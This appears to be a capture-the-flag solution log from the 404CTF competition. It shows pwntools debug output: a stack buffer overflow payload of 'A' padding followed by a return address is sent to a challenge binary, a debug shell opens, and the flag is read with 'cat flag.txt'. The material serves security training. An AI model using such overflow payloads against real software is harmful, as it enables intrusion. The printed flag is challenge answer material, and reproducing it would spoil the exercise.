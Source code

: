 ```
    000003e0  72 74 69 65  6e 6e 65 20  46 65 72 6d  61 74 0a 3e  │rtie│nne │Ferm│at·>│
    000003f0  20                                                  │ │
    000003f1
[DEBUG] Sent 0x111 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000100  41 41 41 41  41 41 41 41  fd 04 40 00  00 00 00 00  │AAAA│AAAA│··@·│····│
    00000110  0a                                                  │·│
    00000111
[*] Switching to interactive mode
 [DEBUG] Received 0x37 bytes:
    00000000  43 6f 6d 6d  61 6e 64 65  20 69 6e 63  6f 6e 6e 75  │Comm│ande│ inc│onnu│
    00000010  65 0a 41 63  63 c3 a8 73  20 c3 a0 20  6c 27 69 6e  │e·Ac│c··s│ ·· │l'in│
    00000020  74 65 72 66  61 63 65 20  64 65 20 64  65 62 6f 67  │terf│ace │de d│ebog│
    00000030  61 67 65 2e  2e 2e 0a                               │age.│..·│
    00000037
Commande inconnue
Accès à l'interface de debogage...
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x1f bytes:
    b'chall\n'
    b'flag.txt\n'
    b'lancement-fusee\n'
chall
flag.txt
lancement-fusee
$ cat flag.txt
[DEBUG] Sent 0xd bytes:
    b'cat flag.txt\n'
[DEBUG] Received 0x1c bytes:
    b'404CTF{c@n_7He_GoRF0u_F1y_?}'
404CTF{c@n_7He_GoRF0u_F1y_?}
```
